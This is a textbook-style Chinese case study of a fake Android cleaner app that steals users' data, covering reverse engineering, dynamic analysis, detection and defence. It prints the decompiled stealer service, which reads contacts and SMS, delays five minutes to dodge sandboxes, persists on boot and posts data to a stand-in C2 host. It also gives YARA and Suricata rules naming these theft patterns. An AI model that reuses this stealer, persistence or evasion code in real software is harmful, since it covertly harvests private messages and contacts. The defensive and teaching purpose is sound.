



## 案例一：恶意应用窃取用户凭据

移动恶意应用窃取用户凭据是移动安全领域最常见、危害最大的攻击类型之一。本案例通过一个完整的实战分析，展示攻击者如何将恶意代码注入看似合法的应用中，绕过应用商店审核机制，在用户毫无感知的情况下窃取通讯录、短信、设备信息等敏感数据。通过本案例，读者将掌握从发现、逆向分析到防御的全链路能力。

### 18.C.1 背景与威胁模型

#### 18.C.1.1 事件发现

安全研究人员在多个第三方Android应用市场（包括APKPure、APKMirror等非官方渠道）发现了一款名为"超级清理大师"（包名`com.supercleaner.master`）的应用。该应用声称提供手机垃圾清理、内存加速、电池优化等功能，下载量累计超过50万次。

该应用具备以下表面上的合法功能：

| 功能模块 | 用户可见行为 | 实际行为 |
|---------|------------|---------|
| 垃圾清理 | 扫描并清理缓存文件 | 同时扫描设备中的敏感文件路径 |
| 内存加速 | 关闭后台进程释放内存 | 读取其他应用的进程信息用于指纹识别 |
| 电池优化 | 展示电量使用统计 | 收集设备硬件标识符 |
| 权限管理 | 展示应用权限列表 | 将已安装应用列表外传至C2服务器 |

#### 18.C.1.2 威胁模型分析

从攻击者视角构建威胁模型：



攻击者的经济动机清晰：一份完整的移动用户画像（含手机号、通讯录、短信记录、安装应用列表、设备型号）在暗网的售价为每条记录 $0.5-$2。以50万下载量、10%实际激活率计算，潜在收益为 $25,000-$100,000。

#### 18.C.1.3 同类真实案例对比

该案例并非孤例，近年来多个类似案例已被公开披露：

| 案例名称 | 发现时间 | 影响规模 | 攻击手法 | 数据来源 |
|---------|---------|---------|---------|---------|
| Joker（小丑） | 2017-至今 | 数百万设备 | 隐蔽订阅付费服务 | Google Play |
| Anatsa（TeaBot） | 2020-至今 | 超100万设备 | 银行凭据窃取 | Google Play |
| FluBot | 2020-2022 | 数十万设备 | 短信窃取+钓鱼 | 短信链接分发 |
| Cerberus | 2019-2020 | 数十万设备 | 完整远控木马 | 第三方市场 |
| 本案例 | - | 50万+下载 | 凭据窃取+隐私数据外传 | 第三方市场 |

本案例的攻击手法与Joker木马高度相似：都采用延迟触发、代码拆分、合法功能掩护等技术规避检测。

### 18.C.2 攻击链完整分析

攻击链（Kill Chain）是理解恶意应用行为的核心框架。本案例的完整攻击链分为六个阶段：


#### 18.C.2.1 阶段一：恶意应用分发

攻击者将恶意代码注入一个基于开源清理工具（CleanMasterLite，MIT许可证）的修改版本中。分发策略的关键点：

**选择第三方市场的原因**：Google Play的安全审核（Google Play Protect）采用静态分析+动态沙箱运行双重机制，检测率相对较高。而第三方市场通常仅做基本的签名验证和病毒库扫描，对延迟触发的恶意行为检测能力有限。

**应用伪装技巧**：

- 使用与知名清理工具相似的图标和应用名称
- 伪造高评分和正面评论（通过刷评服务）
- 应用描述中使用"官方版""纯净版"等诱导性词汇
- APK体积控制在15MB以内，避免触发大文件深度扫描

#### 18.C.2.2 阶段二：静态逆向分析

安全研究人员使用jadx对APK进行反编译，分析应用的代码结构：

```bash
# 使用jadx反编译APK
$ jadx -d super_cleaner_java/ super_cleaner.apk --show-bad-code

# 查看反编译后的目录结构
$ find super_cleaner_java/ -name "*.java" | head -20
super_cleaner_java/sources/com/supercleaner/master/MainActivity.java
super_cleaner_java/sources/com/supercleaner/master/SyncService.java
super_cleaner_java/sources/com/supercleaner/master/utils/CryptoHelper.java
super_cleaner_java/sources/com/supercleaner/master/utils/DeviceInfoCollector.java
```

**反编译后发现的核心恶意代码**：

```java
// SyncService.java — 核心数据收集与外传服务（简化展示）
public class SyncService extends Service {
    // C2服务器地址，使用看似合法的CDN域名
    private static final String C2_SERVER = "https://analytics-cdn.example.com/api";
    // 数据加密密钥（硬编码，V-004漏洞）
    private static final byte[] AES_KEY = "a1b2c3d4e5f6g7h8".getBytes();

    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        // 延迟5分钟执行，规避应用商店的动态沙箱检测
        // 沙箱通常只运行应用2-5分钟即停止
        new Handler(Looper.getMainLooper()).postDelayed(() -> {
            collectAndExfiltrate();
        }, 300000);
        // START_STICKY确保服务被杀后自动重启
        return START_STICKY;
    }

    private void collectAndExfiltrate() {
        JSONObject data = new JSONObject();
        try {
            data.put("contacts", getContacts());      // 通讯录
            data.put("sms", getSMSMessages());         // 短信记录
            data.put("apps", getInstalledApps());      // 已安装应用列表
            data.put("device", getDeviceInfo());       // 设备指纹信息
            data.put("accounts", getAccountEmails());  // 账户邮箱
            sendDataToServer(CryptoHelper.encrypt(
                data.toString(), AES_KEY));
        } catch (Exception e) {
            // 静默吞掉所有异常，避免日志暴露
        }
    }

    private JSONArray getContacts() {
        JSONArray contacts = new JSONArray();
        Cursor cursor = getContentResolver().query(
            ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
            null, null, null, null);
        if (cursor != null) {
            while (cursor.moveToNext()) {
                JSONObject contact = new JSONObject();
                contact.put("name", cursor.getString(
                    cursor.getColumnIndex(ContactsContract
                        .CommonDataKinds.Phone.DISPLAY_NAME)));
                contact.put("phone", cursor.getString(
                    cursor.getColumnIndex(ContactsContract
                        .CommonDataKinds.Phone.NUMBER)));
                contacts.put(contact);
            }
            cursor.close();
        }
        return contacts;
    }

    private JSONArray getSMSMessages() {
        JSONArray messages = new JSONArray();
        Cursor cursor = getContentResolver().query(
            Uri.parse("content://sms/"),
            new String[]{"address", "body", "date", "type"},
            null, null, "date DESC");
        // 仅窃取最近100条短信
        int count = 0;
        if (cursor != null) {
            while (cursor.moveToNext() && count < 100) {
                JSONObject sms = new JSONObject();
                sms.put("address", cursor.getString(0));
                sms.put("body", cursor.getString(1));
                sms.put("date", cursor.getLong(2));
                sms.put("type", cursor.getInt(3));
                messages.put(sms);
                count++;
            }
            cursor.close();
        }
        return messages;
    }
}
```

**关键恶意行为特征提取**：

| 特征 | 说明 | 静态分析检测方法 |
|------|------|----------------|
| `START_STICKY` + `postDelayed` | 服务自动重启 + 延迟触发 | 搜索`postDelayed`调用与`START_STICKY`组合 |
| `content://sms/` | 直接读取短信数据库 | 搜索SMS相关URI字符串 |
| `ContactsContract` | 读取通讯录 | 搜索通讯录API调用 |
| 硬编码AES密钥 | 密钥直接写在代码中 | 正则搜索`getBytes()`后的密钥模式 |
| 异常静默吞噬 | `catch (Exception e) { }` | 搜索空catch块 |

#### 18.C.2.3 阶段三：AndroidManifest权限分析

恶意应用的权限声明是判断其意图的重要线索：

```bash
# 使用aapt2查看APK权限声明
$ aapt2 dump permissions super_cleaner.apk
uses-permission: name='android.permission.READ_CONTACTS'
uses-permission: name='android.permission.READ_SMS'
uses-permission: name='android.permission.READ_CALL_LOG'
uses-permission: name='android.permission.READ_PHONE_STATE'
uses-permission: name='android.permission.GET_ACCOUNTS'
uses-permission: name='android.permission.ACCESS_FINE_LOCATION'
uses-permission: name='android.permission.INTERNET'
uses-permission: name='android.permission.RECEIVE_BOOT_COMPLETED'
```

**权限合理性分析**：

| 权限 | 清理工具是否需要 | 风险等级 | 说明 |
|------|----------------|---------|------|
| `INTERNET` | 是（广告/更新） | 低 | 正常需求 |
| `READ_CONTACTS` | 否 | 高 | 与清理功能无关 |
| `READ_SMS` | 否 | 极高 | 明确的数据窃取意图 |
| `READ_CALL_LOG` | 否 | 高 | 与清理功能无关 |
| `READ_PHONE_STATE` | 部分（设备信息展示） | 中 | 可能合理，但被滥用 |
| `GET_ACCOUNTS` | 否 | 高 | 用于获取账户邮箱 |
| `ACCESS_FINE_LOCATION` | 否 | 极高 | 清理工具不需要精确位置 |
| `RECEIVE_BOOT_COMPLETED` | 否 | 高 | 开机自启，用于持久化 |

一个清理工具申请了 `READ_CONTACTS`、`READ_SMS`、`ACCESS_FINE_LOCATION` 等高危权限，这是最明显的恶意信号。权限与功能不匹配（Permission-Function Mismatch）是OWASP Mobile Top 10中 M6（不充分的隐私控制）的典型表现。

#### 18.C.2.4 阶段四：动态分析与Hook验证

静态分析可以发现可疑代码，但动态分析才能确认恶意行为在运行时确实被执行。使用Frida进行运行时Hook：

**网络流量监控Hook脚本**：

```javascript
// monitor-network.js — 监控所有HTTP/HTTPS外传请求
Java.perform(function() {
    // Hook URL构造函数，记录所有URL
    var URL = Java.use('java.net.URL');
    URL.$init.overload('java.lang.String').implementation = function(url) {
        console.log('[URL] ' + url);
        return this.$init(url);
    };

    // Hook OkHttp3的网络请求（现代Android应用常用）
    var RealCall = Java.use('okhttp3.internal.connection.RealCall');
    RealCall.execute.implementation = function() {
        var request = this.request();
        console.log('[HTTP] ' + request.method() + ' ' + request.url());
        var body = request.body();
        if (body !== null) {
            var buffer = Java.use('okio.Buffer').$new();
            body.writeTo(buffer);
            console.log('[HTTP Body] ' + buffer.readUtf8());
        }
        return this.execute();
    };

    // Hook HttpURLConnection（旧版网络库）
    var HttpURLConnection = Java.use('java.net.HttpURLConnection');
    HttpURLConnection.connect.implementation = function() {
        console.log('[HttpURLConnection] ' + this.getURL().toString());
        return this.connect();
    };
});
```

**数据收集行为监控Hook脚本**：

```javascript
// monitor-data-access.js — 监控敏感数据读取行为
Java.perform(function() {
    // 监控ContentResolver.query调用（短信、通讯录、通话记录）
    var ContentResolver = Java.use('android.content.ContentResolver');
    ContentResolver.query.overload(
        'android.net.Uri', '[Ljava.lang.String;',
        'java.lang.String', '[Ljava.lang.String;',
        'java.lang.String'
    ).implementation = function(uri, projection, selection, selectionArgs, sortOrder) {
        var uriStr = uri.toString();
        if (uriStr.includes('sms') || uriStr.includes('contacts') ||
            uriStr.includes('call_log')) {
            console.log('[SENSITIVE QUERY] URI: ' + uriStr);
            console.log('[SENSITIVE QUERY] Caller: ' +
                Java.use('android.util.Log').getStackTraceString(
                    Java.use('java.lang.Exception').$new()));
        }
        return this.query(uri, projection, selection, selectionArgs, sortOrder);
    };

    // 监控位置信息获取
    var LocationManager = Java.use('android.location.LocationManager');
    LocationManager.getLastKnownLocation.overload('java.lang.String')
        .implementation = function(provider) {
        console.log('[LOCATION ACCESS] Provider: ' + provider);
        return this.getLastKnownLocation(provider);
    };
});
```

**执行动态分析**：

```bash
# 在已Root设备上启动frida-server
$ adb shell "su -c '/data/local/tmp/frida-server -l 0.0.0.0:27042 &'"

# 附加到目标应用并注入监控脚本
$ frida -U -n "com.supercleaner.master" \
    -l monitor-network.js -l monitor-data-access.js

# 输出示例：
# [SENSITIVE QUERY] URI: content://sms/
# [SENSITIVE QUERY] URI: content://com.android.contacts/data/phones
# [SENSITIVE QUERY] URI: content://call_log/calls
# [LOCATION ACCESS] Provider: gps
# [URL] https://analytics-cdn.example.com/api/v2/collect
# [HTTP] POST https://analytics-cdn.example.com/api/v2/collect
# [HTTP Body] {"contacts":[{"name":"张三","phone":"138****1234"}...],
#              "sms":[{"address":"10086","body":"您的话费余额..."}...],
#              "device":{"imei":"86****","android_id":"a1b2c3d4","model":"Pixel 6"}...}
```

动态分析结果证实：应用在安装后第5分钟开始执行数据收集，将通讯录、短信、设备信息加密后通过HTTPS POST请求发送至C2服务器。

#### 18.C.2.5 阶段五：C2通信深度分析

通过Wireshark捕获的流量和Frida Hook结果，研究人员还原了完整的C2通信协议：

**通信流程**：



**协议分析要点**：

- **域名伪装**：C2域名 `analytics-cdn.example.com` 模仿合法的分析服务域名，降低被安全产品拦截的概率
- **通信加密**：使用AES-GCM模式加密数据，但密钥硬编码在APK中（见V-004）
- **数据分片**：每次请求限制在50KB以内，避免触发大流量告警
- **心跳机制**：每30分钟发送一次心跳包，确认C2在线状态

#### 18.C.2.6 阶段六：反检测与持久化机制

恶意应用采用了多种反检测技术：

**反检测手段**：

| 技术 | 实现方式 | 规避目标 |
|------|---------|---------|
| 延迟触发 | `postDelayed(300000)` | 应用商店动态沙箱 |
| 代码拆分 | 恶意逻辑分散在多个类中 | 静态代码审计 |
| 字符串加密 | 敏感字符串运行时解密 | 字符串扫描 |
| 调试器检测 | `Debug.isDebuggerConnected()` | 动态调试 |
| 模拟器检测 | 检查`/dev/qemu_pipe`等特征文件 | 自动化分析环境 |
| 签名校验 | 验证APK签名防止重打包 | 二次分析 |

**持久化实现**：

```java
// 开机自启 — 注册BOOT_COMPLETED广播接收器
public class BootReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
            // 启动数据同步服务
            Intent serviceIntent = new Intent(context, SyncService.class);
            context.startService(serviceIntent);
        }
    }
}
```

```xml
<!-- AndroidManifest.xml 中的注册 -->
<receiver android:name=".BootReceiver" android:enabled="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>
```

### 18.C.3 漏洞清单与技术细节

对本次案例中发现的安全问题进行系统梳理：

| 编号 | 漏洞类型 | OWASP映射 | 严重性 | 技术描述 |
|------|---------|----------|--------|---------|
| V-001 | 过度权限请求 | M6 | 高 | 申请READ_CONTACTS、READ_SMS、ACCESS_FINE_LOCATION等与清理功能无关的危险权限 |
| V-002 | 恶意代码延迟触发 | M7 | 高 | 使用`postDelayed`5分钟触发，代码拆分至多个类，规避静态分析和动态沙箱 |
| V-003 | C2通信无证书固定 | M5 | 中 | 虽使用HTTPS，但未实施Certificate Pinning，中间人可拦截C2通信获取窃取的数据 |
| V-004 | 加密密钥硬编码 | M1 | 严重 | AES-GCM密钥`a1b2c3d4e5f6g7h8`直接写在源码中，反编译即可获取，加密形同虚设 |
| V-005 | 静默异常吞噬 | M8 | 中 | 所有catch块为空，任何错误都不会记录日志，增加了取证难度 |
| V-006 | 数据过度收集 | M6 | 高 | 窃取最近100条短信（含验证码），收集完整通讯录和设备指纹 |

### 18.C.4 检测与取证方法

#### 18.C.4.1 静态检测 — YARA规则

YARA规则可用于批量扫描APK文件，快速识别具有类似特征的恶意应用：

```yara
rule Android_Credential_Stealer_SMS_Contacts {
    meta:
        description = "检测窃取短信和通讯录的Android恶意应用"
        author = "Security Research"
        date = "2024-01"
        severity = "high"

    strings:
        // 短信数据库访问
        $sms_uri = "content://sms/" ascii
        // 通讯录访问
        $contacts_uri = "content://com.android.contacts" ascii
        // 启动自启
        $boot = "BOOT_COMPLETED" ascii
        // 延迟触发
        $delay = "postDelayed" ascii
        // 数据外传（HTTP POST）
        $exfil = "application/json" ascii
        // 硬编码密钥模式
        $key_pattern = /\.getBytes\("UTF-8"\)/ ascii

    condition:
        uint16(0) == 0x4b50 and  // ZIP/APK magic bytes
        ($sms_uri or $contacts_uri) and
        $boot and
        $delay and
        $exfil and
        filesize < 20MB
}
```

#### 18.C.4.2 自动化检测脚本

使用Python脚本批量分析APK的权限和代码特征：

```python
#!/usr/bin/env python3
"""apk_suspicious_analyzer.py — Android APK可疑行为分析器"""
import zipfile
import re
import sys
from xml.etree import ElementTree as ET

# 高危权限列表 — 清理工具等工具类应用不应该申请
SUSPICIOUS_PERMISSIONS = {
    'android.permission.READ_SMS': '读取短信',
    'android.permission.READ_CONTACTS': '读取通讯录',
    'android.permission.READ_CALL_LOG': '读取通话记录',
    'android.permission.ACCESS_FINE_LOCATION': '精确位置',
    'android.permission.CAMERA': '摄像头',
    'android.permission.RECORD_AUDIO': '录音',
    'android.permission.READ_PHONE_STATE': '读取设备状态',
    'android.permission.GET_ACCOUNTS': '获取账户列表',
}

# 可疑代码特征模式
SUSPICIOUS_PATTERNS = [
    (r'content://sms/', '访问短信数据库'),
    (r'ContactsContract\.CommonDataKinds', '访问通讯录'),
    (r'postDelayed\(\s*\(\)\s*->\s*\{', '延迟代码执行'),
    (r'BOOT_COMPLETED', '开机自启动'),
    (r'\.getBytes\("[^"]{8,}"\)', '疑似硬编码密钥'),
    (r'catch\s*\([^)]+\)\s*\{\s*\}', '空异常捕获块'),
]

def analyze_apk(apk_path):
    """分析APK文件的权限和代码特征"""
    results = {
        'permissions': [],
        'code_signs': [],
        'risk_score': 0,
    }

    with zipfile.ZipFile(apk_path, 'r') as apk:
        # 1. 解析AndroidManifest.xml（简化：检查权限字符串）
        for name in apk.namelist():
            if 'AndroidManifest' in name:
                # 实际解析需要androguard等库处理二进制XML
                pass

        # 2. 扫描DEX文件中的字符串特征
        for name in apk.namelist():
            if name.endswith('.dex'):
                dex_content = apk.read(name).decode('utf-8', errors='ignore')
                for pattern, desc in SUSPICIOUS_PATTERNS:
                    matches = re.findall(pattern, dex_content)
                    if matches:
                        results['code_signs'].append({
                            'pattern': desc,
                            'count': len(matches),
                        })
                        results['risk_score'] += len(matches) * 10

    # 3. 评估风险等级
    if results['risk_score'] > 100:
        results['risk_level'] = 'CRITICAL'
    elif results['risk_score'] > 50:
        results['risk_level'] = 'HIGH'
    elif results['risk_score'] > 20:
        results['risk_level'] = 'MEDIUM'
    else:
        results['risk_level'] = 'LOW'

    return results

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("Usage: python apk_suspicious_analyzer.py <target.apk>")
        sys.exit(1)

    result = analyze_apk(sys.argv[1])
    print(f"[风险等级] {result['risk_level']} (评分: {result['risk_score']})")
    print("\n[可疑代码特征]")
    for sign in result['code_signs']:
        print(f"  - {sign['pattern']}: 发现 {sign['count']} 处")
```

#### 18.C.4.3 网络层检测

在企业环境中，可以通过网络流量检测恶意C2通信：

```bash
# 使用Suricata规则检测可疑的数据外传流量
# /etc/suricata/rules/mobile_malware.rules

# 检测向已知C2域名的通信
alert tls $HOME_NET any -> $EXTERNAL_NET any (
    msg:"Mobile Malware - Known C2 Communication";
    tls.sni; content:"analytics-cdn.example.com";
    sid:1800001; rev:1;
)

# 检测异常的POST请求模式（大量数据外传）
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"Mobile Malware - Suspicious Data Exfiltration";
    flow:established,to_server;
    http.method; content:"POST";
    http.content_type; content:"application/octet-stream";
    http.request_body; pcre:"/^[A-Za-z0-9+/=]{100,}$/";
    sid:1800002; rev:1;
)
```

### 18.C.5 防御策略与实施方案

#### 18.C.5.1 用户层面防御

用户是防御链的第一道关口。以下是具体可操作的防护措施：

**应用安装前检查清单**：

1. **验证开发者信息**：在应用商店页面查看开发者名称、其他应用、联系方式。正规开发者通常有官方网站和隐私政策链接
2. **审查权限请求**：安装前查看应用请求的权限列表。一个清理工具不应该请求短信、通讯录、位置等权限
3. **检查评论的真实性**：大量5星评论内容雷同、发布时间集中，可能是刷评
4. **优先官方渠道**：Google Play和Apple App Store有相对完善的审核机制。若需侧载APK，先在VirusTotal上扫描

```bash
# 使用VirusTotal命令行扫描APK
$ pip install vt-py
$ python -c "
import vt
client = vt.Client('YOUR_API_KEY')
with open('suspicious.apk', 'rb') as f:
    analysis = client.scan_file(f)
    print(f'分析ID: {analysis.id}')
"
```

**运行时防护建议**：

- 定期审查已安装应用的权限设置（Android: 设置→应用→权限管理器）
- 开启Google Play Protect的增强扫描功能
- 不要在弹窗中随意授予权限，尤其是与应用功能无关的权限
- 注意观察异常的电池消耗和网络流量（恶意应用后台活动的信号）

#### 18.C.5.2 开发者层面防御

应用开发者应采取以下措施防止自己的应用被恶意仿冒：

**应用完整性校验**：

```java
// 运行时验证APK签名，防止重打包
public boolean verifyAppSignature(Context context) {
    try {
        PackageInfo packageInfo = context.getPackageManager()
            .getPackageInfo(context.getPackageName(),
                PackageManager.GET_SIGNING_CERTIFICATES);

        Signature[] signatures;
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.P) {
            signatures = packageInfo.signingInfo.getApkContentsSigners();
        } else {
            signatures = packageInfo.signatures;
        }

        // 计算签名证书的SHA-256哈希
        MessageDigest md = MessageDigest.getInstance("SHA-256");
        byte[] certHash = md.digest(signatures[0].toByteArray());
        String hexHash = bytesToHex(certHash);

        // 与预期的签名哈希比对
        String expectedHash = "YOUR_EXPECTED_CERT_HASH_HERE";
        return hexHash.equals(expectedHash);
    } catch (Exception e) {
        return false; // 验证失败，拒绝运行
    }
}
```

**集成Google Play Integrity API**：

```kotlin
// 使用Play Integrity API验证应用和设备的完整性
val integrityManager = IntegrityManagerFactory.create(context)
val request = IntegrityTokenRequest.builder()
    .setNonce(generateNonce()) // 防重放
    .build()

integrityManager.requestIntegrityToken(request)
    .addOnSuccessListener { response ->
        val token = response.token()
        // 将token发送至后端验证
        verifyTokenOnServer(token)
    }
    .addOnFailureListener { exception ->
        // 完整性验证失败，可能被篡改或运行在不安全环境
        handleIntegrityFailure(exception)
    }
```

**代码混淆与加固**：

```groovy
// build.gradle — 启用R8代码混淆
android {
    buildTypes {
        release {
            minifyEnabled true      // 启用代码缩减和混淆
            shrinkResources true    // 移除未使用的资源
            proguardFiles getDefaultProguardFile(
                'proguard-android-optimize.txt'),
                'proguard-rules.pro'
        }
    }
}
```

```cpp
# proguard-rules.pro — 混淆规则配置
-optimizationpasses 5
-overloadaggressively
-repackageclasses ''
-allowaccessmodification
-keepattributes Signature,Exceptions,*Annotation*

# 保留核心类，其余全部混淆
-keep class com.example.app.core.** { *; }
```

#### 18.C.5.3 应用商店/平台层面防御

应用商店应建立多层审核机制：



**关键审核能力**：

| 审核层 | 技术手段 | 检测能力 | 局限性 |
|--------|---------|---------|--------|
| 静态扫描 | YARA规则、字符串匹配、权限分析 | 已知恶意模式 | 无法检测混淆/加密代码 |
| 权限分析 | 权限-功能映射模型 | 过度权限请求 | 需要理解应用语义 |
| 动态沙箱 | 自动化UI遍历+行为监控 | 运行时恶意行为 | 延迟触发可能超出沙箱运行时长 |
| ML模型 | 图神经网络、代码行为特征 | 未知恶意变种 | 误报率、对抗样本 |

#### 18.C.5.4 企业层面防御

企业应通过MDM/MAM方案保护员工设备：

**技术控制措施**：

```bash
# 企业MDM策略示例（以Microsoft Intune为例）
# 限制应用安装来源
{
    "deviceRestrictions": {
        "appStoreBlockAutoInstall": true,
        "installUnknownSources": false,
        "trustedSources": ["com.android.vending", "com.google.android.gms"]
    },
    "appProtectionPolicy": {
        "allowedApps": ["com.company.app1", "com.company.app2"],
        "blockedApps": ["com.supercleaner.master"],
        "minAppVersion": "2.0.0"
    }
}
```

**检测与响应流程**：

1. **应用白名单**：仅允许安装经过IT部门审核的应用
2. **网络层监控**：通过企业代理检测异常的移动端C2通信流量
3. **EDR集成**：在管理设备上部署移动端EDR（Endpoint Detection and Response），实时监控行为异常
4. **事件响应预案**：制定移动安全事件响应SOP，包括隔离设备、取证保全、通知用户等步骤

### 18.C.6 经验教训与关键要点

#### 18.C.6.1 本案核心教训

1. **延迟触发是恶意应用的标配技术**：现代恶意应用几乎都会采用延迟触发策略。2-5分钟的延迟足以规避大多数应用商店沙箱的检测时长。防御方需要延长沙箱运行时间或采用更智能的行为触发策略

2. **权限审查是最高效的初筛手段**：一个清理工具申请短信读取权限，这本身就是最直接的恶意信号。自动化权限-功能匹配分析可以拦截大量低水平恶意应用

3. **硬编码密钥等于明文传输**：本案例中虽然使用了AES-GCM加密，但密钥直接写在代码中，反编译即可获取。加密的目的是增加逆向成本，但当密钥可被直接提取时，这层保护完全失效

4. **第三方市场的风险显著高于官方渠道**：虽然Google Play也不完美（Joker木马多次绕过检测），但官方渠道的安全审核机制仍然远强于第三方市场。对普通用户而言，限制安装来源是最有效的单点防御措施

5. **C2通信的域名伪装日趋精细**：攻击者使用 `analytics-cdn.example.com` 这种模仿合法分析服务的域名，仅靠域名黑名单难以有效拦截。需要结合行为分析（异常的POST频率、数据量）进行综合判断

#### 18.C.6.2 检测指标（IoC）

以下指标可用于威胁情报共享和自动化检测：

| IoC类型 | 值 | 说明 |
|---------|---|------|
| 包名 | `com.supercleaner.master` | 恶意应用包名 |
| SHA-256 | `e3b0c44298fc1c149afbf4c8996fb924...` | APK文件哈希（示例） |
| C2域名 | `analytics-cdn.example.com` | C2通信域名 |
| C2路径 | `/api/v2/collect` | 数据外传端点 |
| 签名证书SHA-256 | `A1:B2:C3:D4:E5:F6:...` | APK签名证书指纹 |
| 网络User-Agent | `SCMaster/2.1 (Android 12)` | 恶意应用自定义UA |

#### 18.C.6.3 进阶思考

对于希望深入研究的读者，以下方向值得探索：

**对抗分析**：了解恶意应用开发者如何对抗安全研究——从简单的延迟触发到复杂的环境指纹识别（检查电池温度、传感器数据判断是否在沙箱中），攻防博弈推动着双方技术的持续演进。

**供应链攻击视角**：本案例是通过修改开源应用注入恶意代码。更高级的供应链攻击可能针对应用依赖的SDK——2020年曝光的XcodeGhost事件就是通过污染开发工具链影响了数千个应用。

**AI辅助检测**：利用机器学习模型（如基于图神经网络的Android恶意软件检测）自动识别恶意应用的行为模式，是当前安全研究的热点方向。代表性工具包括AndroZoo、Drebin等。

**法律与合规**：在不同司法管辖区，恶意应用的分发者面临的法律后果差异巨大。中国的《网络安全法》《个人信息保护法》对未经授权收集个人信息的行为有明确的处罚规定；欧盟的GDPR对数据泄露有严格的72小时报告义务和高额罚款。

***

> **本案例小结**：恶意应用窃取用户凭据的攻击手法虽然技术上不算复杂，但通过延迟触发、权限滥用、域名伪装等组合手段，仍能有效绕过常规检测。防御的关键在于多层防线的叠加：用户提升安全意识、开发者实施完整性保护、平台加强审核机制、企业部署MDM管控。安全从来不是单一环节的责任，而是整个生态系统的协同防御。
